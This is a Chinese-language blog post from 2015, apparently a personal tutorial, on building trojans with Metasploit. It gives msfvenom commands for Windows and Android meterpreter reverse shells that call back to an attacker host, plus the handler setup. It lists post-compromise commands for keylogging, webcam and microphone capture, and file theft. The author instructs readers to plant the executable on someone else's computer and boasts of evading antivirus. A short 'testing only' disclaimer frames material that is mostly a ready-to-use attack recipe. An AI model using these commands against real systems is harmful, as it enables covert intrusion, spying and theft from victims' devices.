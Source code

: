 ```yaml
---
title: Kali-Metasploit制作简易木马
date: 2015-08-05 12:01:00
category: OS
tags: 
    - Kali
---
```


相信很多人都有这种感觉,觉得那些会做木马病毒的人非常牛逼,当然会自己完全写出来木马病毒的肯定非常牛逼,但是实际上,大部分人都是在前人的基础上修改,很多则是用工具生成,出于兴趣,研究了一段时间"黑"科技,也实践了一下!

总结了几点简单的工具用法,如果你会用这些工具,你会发现也许一个木马没有你像现在那么难做出来!本文是本着研究的精神,所有攻击行为都是测试,请勿用于非法用途!

测试环境:kali linux windows7 windows 10 Android等操作系统

主要工具:metasploit framework

<!--more-->

关于所用工具,本文不做过多介绍,这里介绍的使用方法也是最基本最简单的用法:

## 1.使用metasploit 工具生存一个木马(windows版本),命令如下:
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -f exe >demo.exe
```
LHOST=后面的ip地址是你自己的局域网ip,目前本人所有的攻击测试仅在局域网试过,也就是内网,关于外网的使用暂时不太清楚如何进行!

demo.exe为生成的木马文件,把木马文件拷贝到对方电脑上,双击即可运行!据测试,该木马可以过360安全卫士,电脑管家等常用杀毒软件!这还是在没有做任何加密\加壳的情况下.....不过在有些人的电脑上360可以杀出来!可能是版本不同

## 2.打开软件,设置好监听,命令依次如下:
```
use exploit/multi/handler
set payloads windows/meterpreter/reverse_tcp
set LHOST 192.168.1.47
set LPORT 8080
exploit
```

## 3.坐等上钩
此时,只要对方电脑点击运行demo.exe木马文件,这边监听端口就可以收到信息,建立连接!然后可以执行一些入侵指令,对方现在电脑完全在你的掌控之下,常用命令如下:
```
sysinfo     //查看攻击主机的系统信息
kill         //结束进程
ps          //查看进程
reboot      //重启电脑
reg        //修改注册表
shell        //获取shell
shutdown    //关闭电脑
keyscan_start //开启健盘记录功能
keyscan_dump //查看健盘记录信息
keyscan_stop //停止健盘记录
download     //下载文件
upload        //上传文件
uictl enable keyboard　　　//获取键盘鼠标控制权
record_mic　　　　//音频录制
webcam_chat　　　//查看摄像头接口
webcam_list　　　//查看摄像头列表
webcam_stream　 //摄像头视频获取
................
```
## 4.生成Android版本的木马,其实步骤和上面差不多
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -r >demo.apk
```
只要你下载安装到你手机上,你手机基本上也是别人的了,获取联系人\通讯录\定位打开摄像头\照片.......而且经测试,小米手机自带的安全中心对此木马完全没用!

不过,据我暂时了解的知识,距离一个完整的木马还有点距离:

1. 杀毒软件.据我测试,腾讯的电脑管家就是垃圾,扫描不出来我生成的木马,360基本上一扫就出来,经过简单编码加密后,360会提示风险程序,而系统自带的windows defender更是一点点用都没.不过要想真把木马做成免杀还得花点功夫.......

2. 木马持续后门.所谓持续后门就是能让木马开机后自启,经测试,msf自带的2种方法无效.....暂时未找到可行性方法!

3. 外网控制.这是一个大问题,比较难解决,现在的攻击都是基于同一个局域网内!

4. 权限问题.360是个麻烦事,在有些机子上进行操作,比如打开摄像头,360会有提示.....而且木马暂时还没法子终结360的进程,所以蛋疼!

在日常生活中,专门去攻击某些个人的情况很少,很多时候黑客都是采用自动化工具遍地撒网,利用一些公开的漏洞进行攻击!普通人能做的只是让自己别中这些自动化黑客工具的招就行了,如果某些个人或者组织想黑你,真的很简单.............
